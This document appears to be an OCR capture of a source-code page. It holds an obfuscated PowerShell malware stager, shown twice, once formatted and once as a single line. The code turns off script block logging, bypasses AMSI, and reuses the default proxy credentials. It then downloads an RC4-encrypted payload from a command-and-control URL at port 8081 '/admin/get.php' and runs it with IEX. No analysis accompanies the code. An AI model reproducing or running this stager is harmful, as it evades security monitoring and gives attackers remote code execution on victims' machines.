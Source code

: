 









If($PSVERsIoNTAbLe.PSVeRsIon.MAJOR -Ge 3){$GPS=[ReF].ASSEmbly.GETTYPE('System.Management.Automation.Utils')."GeTFie`Ld"('cachedGroupPolicySettings','N'+'onPublic,Static').GEtVALUe($NulL);
If($GPS['ScriptB'+'lockLogging']){$GPS['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
$GPS['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0}ElSE{[ScriptBlOcK]."GeTFiE`Ld"('signatures','N'+'onPublic,Static').SETValUE($NUlL,(New-ObJecT CoLLectIOnS.GeNeRIC.HAshSet[stRing]))}[ReF].AssEmbLY.GETTYPe('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GEtField('amsiInitFailed','NonPublic,Static').SEtVALue($nULL,$TRuE)};
};
[SYStem.NeT.SerVicePoinTMANAGeR]::EXPeCt100ConTINuE=0;
$wC=NeW-ObJect SySTem.NEt.WEBClIeNT;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$Wc.HEADErS.Add('User-Agent',$u);
$wC.ProXY=[SYsTeM.NET.WeBREqUesT]::DEFAUltWebPROXY;
$wC.PROxY.CredentIAlS = [SYsTem.NEt.CRedeNTialCacHe]::DeFAuLTNeTwoRKCredeNtiAls;
$Script:Proxy = $wc.Proxy;
$K=[SysTEM.Text.ENcOding]::ASCII.GETBYTes('94+K/L3OE?o@qRl>.:FPev7rtNb^|#im');
$R=
{
$D,$K=$ARgs;
$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNt])%256;
 $S[$_],$S[$J]=$S[$J],$S[$_]};
 $D|%
  {
   $I=($I+1)%256;
   $H=($H+$S[$I])%256;
   $S[$I],$S[$H]=$S[$H],$S[$I];
   $_-bxor$S[($S[$I]+$S[$H])%256]
  }
};
$ser='http://131.255.*.*:8081';
$t='/admin/get.php';
$wc.HeAders.Add("Cookie","session=zt8VX24Knnzen8pNvhPl1xJ2E5s=");
$daTA=$WC.DownlOADDATA($ser+$t);
$iV=$DATa[0..3];
$datA=$dATa[4..$data.leNgth];
-joiN[CHAR[]](& $R $dAta ($IV+$K))|IEX




1234567891011121314151617181920212223242526272829303132

If($PSVERsIoNTAbLe.PSVeRsIon.MAJOR -Ge 3){$GPS=[ReF].ASSEmbly.GETTYPE('System.Management.Automation.Utils')."GeTFie`Ld"('cachedGroupPolicySettings','N'+'onPublic,Static').GEtVALUe($NulL);If($GPS['ScriptB'+'lockLogging']){$GPS['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;$GPS['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0}ElSE{[ScriptBlOcK]."GeTFiE`Ld"('signatures','N'+'onPublic,Static').SETValUE($NUlL,(New-ObJecT CoLLectIOnS.GeNeRIC.HAshSet[stRing]))}[ReF].AssEmbLY.GETTYPe('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GEtField('amsiInitFailed','NonPublic,Static').SEtVALue($nULL,$TRuE)};};[SYStem.NeT.SerVicePoinTMANAGeR]::EXPeCt100ConTINuE=0;$wC=NeW-ObJect SySTem.NEt.WEBClIeNT;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$Wc.HEADErS.Add('User-Agent',$u);$wC.ProXY=[SYsTeM.NET.WeBREqUesT]::DEFAUltWebPROXY;$wC.PROxY.CredentIAlS = [SYsTem.NEt.CRedeNTialCacHe]::DeFAuLTNeTwoRKCredeNtiAls;$Script:Proxy = $wc.Proxy;$K=[SysTEM.Text.ENcOding]::ASCII.GETBYTes('94+K/L3OE?o@qRl>.:FPev7rtNb^|#im');$R={$D,$K=$ARgs;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNt])%256; $S[$_],$S[$J]=$S[$J],$S[$_]}; $D|%  {   $I=($I+1)%256;   $H=($H+$S[$I])%256;   $S[$I],$S[$H]=$S[$H],$S[$I];   $_-bxor$S[($S[$I]+$S[$H])%256]  }};$ser='http://131.255.*.*:8081';$t='/admin/get.php';$wc.HeAders.Add("Cookie","session=zt8VX24Knnzen8pNvhPl1xJ2E5s=");$daTA=$WC.DownlOADDATA($ser+$t);$iV=$DATa[0..3];$datA=$dATa[4..$data.leNgth];-joiN[CHAR[]](& $R $dAta ($IV+$K))|IEX
